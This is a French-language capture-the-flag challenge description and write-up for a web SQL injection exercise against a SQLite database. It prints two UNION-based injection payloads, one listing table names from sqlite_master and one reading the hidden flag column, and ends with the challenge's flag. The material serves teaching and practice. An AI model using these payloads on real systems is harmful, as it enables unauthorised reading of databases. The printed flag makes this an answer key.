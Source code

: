 # SQL injection 6

> web

Author: [Alexandre-Xavier Labonté-Lamoureux (AXDOOMER)](https://github.com/axdoomer)

Ce sixième défi d'injection SQL similaire aux deux défis prédédents, cependant le flag se cache dans une table aillant un nom inconnu. Vous devez trouver un moyen de l'obtenir puis ensuite récupérer le flag. Le mot clé "union" n'est plus filtré, donc vous avez cet embuche en moins. 

Il y a peut-être de l'information qui peut vous aider à résoudre ce défi dans les description de défis précédente. Notez que la colonne où le flag se trouve se nomme toujours "flag".

## Setup

Requirements:
- BurpSuite

# Writeup

Sachant que la base de données est SQLite3, on peut aller chercher le nom des tables comme suit:
`" union select 1,2,name from sqlite_master--`

Par la suite, ayant obtenu le nom de la table, on peut faire:
`" union select 1,2,flag from K953U0Ty4V--`.

Le tour est joué. `FLAG-25389bf2c3b5f951b1201213fa6c46baYouAreEpic`
